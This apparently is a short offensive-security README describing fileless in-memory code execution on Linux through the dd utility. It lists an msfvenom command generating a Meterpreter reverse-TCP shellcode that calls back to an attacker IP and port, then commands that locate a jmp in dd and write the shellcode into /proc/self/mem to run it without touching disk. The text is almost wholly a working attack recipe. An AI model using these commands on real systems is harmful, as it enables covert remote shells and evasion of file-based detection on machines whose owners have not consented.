 # Scripts

## 01 - `dd`

### 1.1 - Generate Payloads

Generate the shellcode for payload execution.

```
userware@hackware-os:~$ msfvenom -p linux/x64/meterpreter/reverse_tcp lhost=<attacker_IP> lport=<attacker_PORT> -f c | grep -Eo "\\\\x[[:xdigit:]]+" | tr -d "\n"
```

### 1.2 - Fileless Code Execution

Retrieve the first addresses of `dd` program.

```
$ setarch x86_64 -R dd if=/proc/self/maps 2>/dev/null | grep /bin/dd
555555554000-555555556000 r--p 00000000 08:01 786821                     /usr/bin/dd
..[omitted]..
```

Dump the program to retrieve the assembly instructions. We'll take the `jmp` operator with the address `6753`.

```
$ objdump -Mintel -d $(which dd) | grep fclose                                  
0000000000002170 <fclose@plt>:
    671a:       e8 51 ba ff ff          call   2170 <fclose@plt>
    6753:       e9 18 ba ff ff          jmp    2170 <fclose@plt>
```

Then we execute in the target with the shellcode through memory.

```
$ echo -en "<shellcode>" | setarch x86_64 -R dd of=/proc/self/mem bs=1 seek=$(( 555555554000 + 0x6753 )) conv=notrunc 10<&0 11<&1
```

---
## References

### Sektor7

- [Sektor7: Pure In-Memory (Shell)Code Injection In Linux Userland](https://blog.sektor7.net/#!res/2018/pure-in-memory-linux.md)